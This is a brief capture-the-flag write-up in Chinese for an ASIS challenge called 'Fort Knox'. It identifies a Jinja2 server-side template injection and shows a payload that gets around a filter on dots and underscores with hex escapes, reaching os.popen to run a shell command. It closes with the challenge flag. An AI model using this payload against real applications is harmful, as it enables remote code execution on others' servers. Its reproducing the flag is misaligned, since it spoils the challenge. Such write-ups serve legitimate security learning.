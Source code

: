 # Fort Knox

- `{{ 2*3 }}`
    - `6`
- `{{ 7*'7' }}`
    - `7777777`

- 由以上可以判斷出是Jinja2 SSTI
- 但是擋掉`.`和`_`
- 可以簡單繞過:
    - `{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][2]["\x5f\x5fsubclasses\x5f\x5f"]()[59]["\x5f\x5finit\x5f\x5f"]["func\x5fglobals"]["linecache"]["os"]["popen"]('ls')["read"]()}}`
- `ASIS{Kn0cK_knoCk_Wh0_i5_7h3re?_4nee_Ane3,VVh0?_aNee0neYouL1k3!}`
